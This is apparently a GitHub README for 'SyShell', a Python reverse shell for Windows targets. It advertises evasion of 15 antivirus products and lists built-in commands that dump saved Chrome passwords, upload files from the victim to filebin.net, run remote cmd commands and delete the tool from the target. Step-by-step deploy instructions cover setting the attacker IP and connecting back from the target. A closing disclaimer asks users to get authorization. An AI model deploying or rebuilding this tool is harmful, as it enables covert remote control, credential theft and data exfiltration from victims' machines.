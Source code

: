 # SyShell
⚒️ A simple but fully working reverse shell with built-in commands made in Python. ⚒️

- Checked against 15 anti-viruses, completely undetected. At least so far...


## About
SyShell is a reverse shell that offers pre-built commands while also offering complete control over the machine, specifically built for `Windows` systems (Executer). The listener (Syshell_listener.py) has been tested on both Windows and Linux, both work perfectly. 

![SyShell Menu.](images/syshell1.jpg)


## Commands
- `exit` : Exits.
- `getip`: Retrieves general location.
- `sysinfo` : Retrieves System informations.
- `filebin` :  Instead of DIRECTLY uploading from the windows machine to the host machine, we're using: https://filebin.net/ , which is an online free file upload server. Thanks to their API we are able to upload files by performing post requests. **Make sure you create a bin before using this command. Navigate to https://filebin.net/api ----> POST / Upload a file to a bin --> click "Try it out"** Then in the **bin** input, create your own custom ID, upload a test file, then  click **Execute**. Finally you can navigate to your bin by simply visiting `filebin.net/YOUR_BIN_ID` , and you now can upload files in the windows machine from your host machine using the following command:
```
filebin <YOUR BIN ID> <YOUR FILE NAME>
```
- `!browser` : Places Chrome saved passwords in a file `ShellNone_FileStandards_Chrome.txt`. 
- `cmd` : cmd offers the ability to execute cmd commands from host machine.
- `exitcmd` : To Exit cmd mode.
- `clear` : Clears The Screen.
- `!!terminus` : **Exits the session and deletes itself from the target machine.**
- `echo` : `echo <string>`
- `upload` : Currently unavailable / Doesn't work yet.
  
![SyShell Menu.](images/help.jpg)


# Deploy

First install required packages.
## Requirements
There's 2 ways to install the required packages / libraries:

1. Simply run : 
```shell
chmod +x build.sh && ./build.sh
```
2. Just use pip:
```py
pip install -r requirements.txt
```
Either will work.

Next step is to deploy.
## Start
- Firstly, start the listener on your host machine, by using: 
```py
python SyShell_Receiver.py
```
OR
```py
python3 SyShell_Receiver.py
```
- Secondly, update your IP address ( Host Machine's Address. ) , you could just run `ifconfig` (linux) or `ipconfig` on windows, and get your host's machine ip address then either run: 
```bash
chmod +x host_ip.sh && ./host_ip.sh <YOUR HOST MACHINE IP ADDRESS>
```
OR: Simply manually open up `SyShell_executer.py` and change (line 26) : 
```
host = 'HOST MACHINE IP ADDRESS'  # HOST MACHINE IP
```
- Finally, on your target machine, run `python SyShell_executer.py` or `python3 SyShell_executer.py` and you should receive a connection back:

![SyShell Menu.](images/shell.png)


# Disclaimer
Use SyShell at your own risk. The author of SyShell does not take any responsibility for any damages or misuse caused by the software. SyShell is provided as-is, without any warranties. It is expected that users of SyShell will utilize (use) it responsibly and ethically, adhering to applicable laws and regulations. By using SyShell, you agree to accept all risks associated with its use. Always ensure that you have proper authorization before using SyShell on any system.
